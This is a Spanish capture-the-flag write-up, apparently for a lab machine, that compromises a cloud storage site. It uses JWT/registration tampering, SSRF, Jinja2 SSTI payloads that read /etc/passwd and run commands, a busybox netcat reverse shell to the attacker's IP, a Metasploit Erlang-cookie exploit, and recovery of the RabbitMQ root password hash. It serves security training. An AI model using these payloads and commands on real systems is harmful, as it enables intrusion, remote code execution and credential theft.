

## Reconocimiento
Lanzamos **nmap** a todos los puertos, con scripts y versiones de software:
```console
nmap -p- --min-rate 5000 -Pn -sVC -n 10.10.113.158 -o nmap                                            
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-18 19:01 CET
Nmap scan report for 10.10.113.158
Host is up (0.063s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3f:da:55:0b:b3:a9:3b:09:5f:b1:db:53:5e:0b:ef:e2 (ECDSA)
|_  256 b7:d3:2e:a7:08:91:66:6b:30:d2:0c:f7:90:cf:9a:f4 (ED25519)
80/tcp    open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://cloudsite.thm/
|_http-server-header: Apache/2.4.52 (Ubuntu)
4369/tcp  open  epmd    Erlang Port Mapper Daemon
| epmd-info: 
|   epmd_port: 4369
|   nodes: 
|_    rabbit: 25672
25672/tcp open  unknown
```

**Nota:** Enumeramos el dominio *cloudsite.thm*, insertamos en nuestro fichero *hosts*.

Accedemos al servicio web, encontramos un portal que ofrece servicio en la nube:


Al pulsar sobre el botón "*Login/Sign Up*", nos redirige a otro recurso con dirección *storage.cloudsite.thm*:


Nos registramos en el portal, pero al intentar autenticarnos, observamos que el sitio no está disponible, ya que requiere activación por parte de un administrador:


Revisamos el token JWT que tenemos, vemos que hay un parámetro llamado "*subscription*" que controla si la cuenta está activada:


## Explotación
Probamos a crear otro usuario, interceptamos la petición y añadimos *"subscription": "active"*:


Accedemos al sitio web y observamos que se habilita una opción para la subida de archivos:


Intentamos subir un fichero PHP, parece que no hay problema:


Sin embargo, los archivos subidos no parecen ejecutarse en el servidor y permanecen disponibles solo por un corto período de tiempo, probablemente debido a un mecanismo automático que los elimina tras unos segundos:


Existe otra opción que permite la subida de archivos a través de una URL:


Observamos que nuestro servidor **Python** recibe la petición:


Realizamos una llamada sobre *localhost* y confirmamos que es posible explotar un *SSRF*:


Por ejemplo, logramos acceder a recursos internos como la página de *Apache Server Status*:


Ejecutamos **dirsearch** sobre la API para identificar parámetros y archivos relevantes. Durante la exploración, encontramos lo que parece ser la documentación de la API, pero el servidor devuelve un código de estado *403 Forbidden*:
```console
dirsearch -u http://storage.cloudsite.thm/api/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 50 -e " "


  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                                                          
 (_||| _) (/_(_|| (_| )                                                                                                                                                                   
                                                                                                                                                                                          
Extensions:  | HTTP method: GET | Threads: 50 | Wordlist size: 4744

Output File: /home/kali/Documents/Rabbit Store/reports/http_storage.cloudsite.thm/_api__25-03-18_20-07-15.txt

Target: http://storage.cloudsite.thm/

[20:07:15] Starting: api/                                                                                                                                                                 
[20:07:17] 405 -   36B  - /api/Login                                        
[20:07:21] 403 -   27B  - /api/docs                                         
[20:07:25] 405 -   36B  - /api/login                                        
[20:07:30] 405 -   36B  - /api/register                                     
[20:07:37] 401 -   32B  - /api/uploads                                      
                                                                             
Task Completed 
```

Aprovechando la vulnerabilidad *SSRF*, conseguimos acceder al recurso restringido. Al explorar su contenido, identificamos que se encuentra en desarrollo una tecnología *LLM* (chatbot):


Observamos que este método no está permitido, lo que podría indicar restricciones de acceso o configuración en el servidor:


Comenzamos a "jugar" con el servicio de mensajería del chatbot (*LLM*), e identificamos los parámetros necesarios para su funcionamiento:


Logramos hacer funcionar el servicio, vemos que se imprime el usuario que especifiquemos:

Tras realizar varias pruebas, identificamos que el chatbot es vulnerable a ataques *Server-Side Template Injection* (SSTI). Este tipo de vulnerabilidad permite a un atacante inyectar código malicioso dentro de las plantillas del servidor, lo que podría resultar en la ejecución de comandos arbitrarios en el servidor, divulgación de información sensible o incluso la ejecución remota de código:
```console
{
  "username":"{{ '{{' }}9*9{{ '}}' }}"
}
```



Utilizamos el siguiente *payload* y logramos identificar una ruta interna absoluta y un nombre de usuario:
```json
{
"username":"{{ request.__class__.__dict__ }}"
}
```


El siguiente *payload* nos permitirá leer ficheros internos, logramos enumerar el fichero passwd, este incluye usuarios relevantes como *Azrael* y *rabbitmq*:
```json
{
  "username":"{{ request.__class__._load_form_data.__globals__.__builtins__.open('/etc/passwd').read() }}"
}
```


A continuación, utilizamos el siguiente código para lograr ejecutar código remoto:
```json
{
  "username":"{{ config.__class__.from_envvar.__globals__.import_string('os').popen('id').read() }}"
}
```


Aprovechamos la vulnerabilidad y logramos obtener la flag de usuario:
```json
{
  "username":"{{ config.__class__.from_envvar.__globals__.import_string('os').popen('cat /home/azrael/user.txt').read() }}"
}
```


## Escalada de privilegios
A continuación, ponemos un **netcat** a la escucha y ejecutamos el siguiente comando para obtener una reverse shell:
```json
{
  "username":"{{ config.__class__.from_envvar.__globals__.import_string('os').popen('busybox nc 10.9.4.73 443 -e sh').read() }}"
}
```


#### Terminal con netcat a la escucha
```console
nc -nvlp 443                                              
listening on [any] 443 ...
connect to [10.9.4.73] from (UNKNOWN) [10.10.136.126] 45388
id
uid=1000(azrael) gid=1000(azrael) groups=1000(azrael)
```

Lanzamos **linpeas.sh** en busca de información relevante o posibles puntos de escalada de privilegios y encontramos varios puntos interesantes que involucra a **rabbitmq**.

Puertos abierto, incluyendo el *5672* y *15672* de **rabbitmq**:
```console
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                                                             
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                                                                                                         
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:25672           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:5672          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      603/python3         
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:15672         0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::4369                 :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22 
```

También nos detecta una cookie en el fichero *.erlang.cookie*:
```console
azrael@forge:/var/lib/rabbitmq$ ls -lna
total 896
drwxr-xr-x  5 124 131   4096 Sep 12  2024 .
drwxr-xr-x 45   0   0   4096 Sep 20 19:11 ..
drwxr-x---  3 124 131   4096 Aug 15  2024 config
-r-----r--  1 124 131     16 Mar 20 18:43 .erlang.cookie
-rw-r-----  1 124 131 889402 Mar 20 18:43 erl_crash.dump
drwxr-x---  4 124 131   4096 Mar 20 18:44 mnesia
-rw-r-----  1 124 131      0 Sep 12  2024 nc
drwxr-x---  2 124 131   4096 Jul 18  2024 schema
azrael@forge:/var/lib/rabbitmq$ cat .erlang.cookie 
**************
```

Creamos un fichero *authorized_keys* sobre la carpeta de *Azrael* con nuestra clave pública, con la idea de utilizar el servicio **SSH** para el port forwarding sobre el puerto 15672:
```console
ssh -L 15672:127.0.0.1:15672 azrael@10.10.136.126
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Thu Mar 20 07:16:27 PM UTC 2025

  System load:  0.0                Processes:             127
  Usage of /:   54.2% of 12.94GB   Users logged in:       1
  Memory usage: 16%                IPv4 address for eth0: 10.10.136.126
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

1 additional security update can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Mar 20 19:13:26 2025 from 10.9.4.73
azrael@forge:~$ 
```

Ahora podremos conectar desde nuestra máquina al panel de autenticación **RabbitMQ**, pero necesitaremos las credenciales:


Recordamos la cookie que habíamos visto antes y comenzamos a investigar qué se podía hacer con ella en Internet, y encontramos que existen varias formas de conseguir ejecutar código remoto a través de ella.

Arrancamos Metasploit y encontramos un exploit para la vulnerabilidad **erlang_cookie_rce**. Usando este exploit, logramos obtener acceso como el usuario *rabbitmq*:
```console
msf6 > search erlang

Matching Modules
================

   #   Name                                          Disclosure Date  Rank       Check  Description
   -   ----                                          ---------------  ----       -----  -----------
   0   exploit/multi/http/apache_couchdb_erlang_rce  2022-01-21       excellent  Yes    Apache Couchdb Erlang RCE
   1     \_ target: Unix Command                     .                .          .      .
   2     \_ target: Linux Dropper                    .                .          .      .
   3     \_ target: Windows Command                  .                .          .      .
   4     \_ target: Windows Dropper                  .                .          .      .
   5     \_ target: PowerShell Stager                .                .          .      .
   6   exploit/multi/misc/erlang_cookie_rce          2009-11-20       great      No     Erlang Port Mapper Daemon Cookie RCE
   7     \_ target: Unix                             .                .          .      .
   8     \_ target: Linux (CmdStager)                .                .          .      .
   9     \_ target: Windows                          .                .          .      .
   10    \_ target: Windows (CmdStager)              .                .          .      .

msf6 exploit(multi/misc/erlang_cookie_rce) > set cookie **********
cookie => **********
msf6 exploit(multi/misc/erlang_cookie_rce) > set rhosts 10.10.136.126
rhosts => 10.10.136.126
msf6 exploit(multi/misc/erlang_cookie_rce) > set lhost 10.9.4.73
lhost => 10.9.4.73
msf6 exploit(multi/misc/erlang_cookie_rce) > exploit
[*] Started reverse TCP double handler on 10.9.4.73:4444 
[*] 10.10.136.126:25672 - Receiving server challenge
[*] 10.10.136.126:25672 - Sending challenge reply
[+] 10.10.136.126:25672 - Authentication successful, sending payload
[*] 10.10.136.126:25672 - Exploiting...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo ***********;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "**********\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.9.4.73:4444 -> 10.10.136.126:37636) at 2025-03-20 21:12:40 +0100

id
uid=124(rabbitmq) gid=131(rabbitmq) groups=131(rabbitmq)
```

Esto es interesante, ya que desde el usuario *Azrael* no tenemos permisos suficientes para ejecutar binarios relacionados con *rabbitmq*, pero desde su propio servicio, obviamente, sí podemos. :D:

Cambiamos los permisos de la cookie y empezamos a utilizar varias herramientas con la idea de enumerar opciones intesantes:
```console
ls -lna
total 896
drwxr-xr-x  5 124 131   4096 Sep 12  2024 .
drwxr-xr-x 45   0   0   4096 Sep 20 19:11 ..
drwxr-x---  3 124 131   4096 Aug 15  2024 config
-r-----r--  1 124 131     16 Mar 20 18:43 .erlang.cookie
-rw-r-----  1 124 131 889402 Mar 20 18:43 erl_crash.dump
drwxr-x---  4 124 131   4096 Mar 20 18:44 mnesia
-rw-r-----  1 124 131      0 Sep 12  2024 nc
drwxr-x---  2 124 131   4096 Jul 18  2024 schema
chmod 600 .erlang.cookie
ls -lna
total 896
drwxr-xr-x  5 124 131   4096 Sep 12  2024 .
drwxr-xr-x 45   0   0   4096 Sep 20 19:11 ..
drwxr-x---  3 124 131   4096 Aug 15  2024 config
-rw-------  1 124 131     16 Mar 20 18:43 .erlang.cookie
-rw-r-----  1 124 131 889402 Mar 20 18:43 erl_crash.dump
drwxr-x---  4 124 131   4096 Mar 20 18:44 mnesia
-rw-r-----  1 124 131      0 Sep 12  2024 nc
drwxr-x---  2 124 131   4096 Jul 18  2024 schema
rabbitmq-diagnostics list_users
Listing users ...
user    tags
The password for the root user is the SHA-256 hashed value of the RabbitMQ root user's password. Please don't attempt to crack SHA-256. []
root    [administrator]
```

Intentamos exportar un fichero con la configuración, este fichero suele exponerse el hash del usuario, pero necesitamos unos datos obligatorios:
```console
rabbitmqctl export_definitions
Error (argument validation): not enough arguments.
Arguments given:
        export_definitions

Usage

rabbitmqctl [--node <node>] [--longnames] [--quiet] export_definitions <file_path | "-"> [--format <json | erlang>] [--timeout <timeout>]

rabbitmqctl cluster_status
Cluster status of node rabbit@forge ...
Basics

Cluster name: rabbit@forge

Disk Nodes

rabbit@forge

Running Nodes

rabbit@forge

Versions

rabbit@forge: RabbitMQ 3.9.13 on Erlang 24.2.1

Maintenance status

Node: rabbit@forge, status: not under maintenance

Alarms

(none)

Network Partitions

(none)

Listeners

Node: rabbit@forge, interface: [::], port: 15672, protocol: http, purpose: HTTP API
Node: rabbit@forge, interface: [::], port: 25672, protocol: clustering, purpose: inter-node and CLI tool communication
Node: rabbit@forge, interface: 127.0.0.1, port: 5672, protocol: amqp, purpose: AMQP 0-9-1 and AMQP 1.0

Feature flags

Flag: drop_unroutable_metric, state: disabled
Flag: empty_basic_get_metric, state: disabled
Flag: implicit_default_bindings, state: enabled
Flag: maintenance_mode_status, state: disabled
Flag: quorum_queue, state: enabled
Flag: stream_queue, state: disabled
Flag: user_limits, state: disabled
Flag: virtual_host_metadata, state: enabled

```

Con todos los datos necesarios, exportamos la información a un fichero *json*, lo leemos y conseguimos el hash de la contraseña del usuario root:
```console
rabbitmq@forge:~$ rabbitmqctl export_definitions --node rabbit@forge m3.json
Exporting definitions in JSON to a file at "m3.json" ...

rabbitmq@forge:~$ cat m3.json
{"bindings":[],"exchanges":[],"global_parameters":[{"name":"cluster_name","value":"rabbit@forge"}],"parameters":[],"permissions":[{"configure":".*","read":".*","user":"root","vhost":"/","write":".*"}],"policies":[],"queues":[{"arguments":{},"auto_delete":false,"durable":true,"name":"tasks","type":"classic","vhost":"/"}],"rabbit_version":"3.9.13","rabbitmq_version":"3.9.13","topic_permissions":[{"exchange":"","read":".*","user":"root","vhost":"/","write":".*"}],"users":[{"hashing_algorithm":"rabbit_password_hashing_sha256","limits":{},"name":"The password for the root user is the SHA-256 hashed value of the RabbitMQ root user's password. Please don't attempt to crack SHA-256.","password_hash":"******************************","tags":[]},{"hashing_algorithm":"rabbit_password_hashing_sha256","limits":{},"name":"root","password_hash":"**************************","tags":["administrator"]}],"vhosts":[{"limits":[],"metadata":{"description":"Default virtual host","tags":[]},"name":"/"}]}
```

Intentamos con **john**, pero no funciona. Buscamos información en internet y encontramos cómo se genera el token. Al parecer, se genera un hash en *base64* combinando un salt de 4 bytes con la contraseña en formato *hexadecimal*:


Por lo tanto, podemos decodificarla ejecutando el proceso inverso con *Cyberchef*, utilizando el resto como contraseña a partir del 5º byte:


Finalmente, nos autenticamos como root, utilizamos la contraseña y leemos la última flag:
```console
rabbitmq@forge:~$ su root
su root
Password: ****************************************************************

root@forge:/var/lib/rabbitmq# id
id
uid=0(root) gid=0(root) groups=0(root)
root@forge:/var/lib/rabbitmq# cat /root/root.txt
cat /root/root.txt
********************
root@forge:/var/lib/rabbitmq# 
```
¡Hasta la próxima! ¡Que la "*suerte*" os acompañe!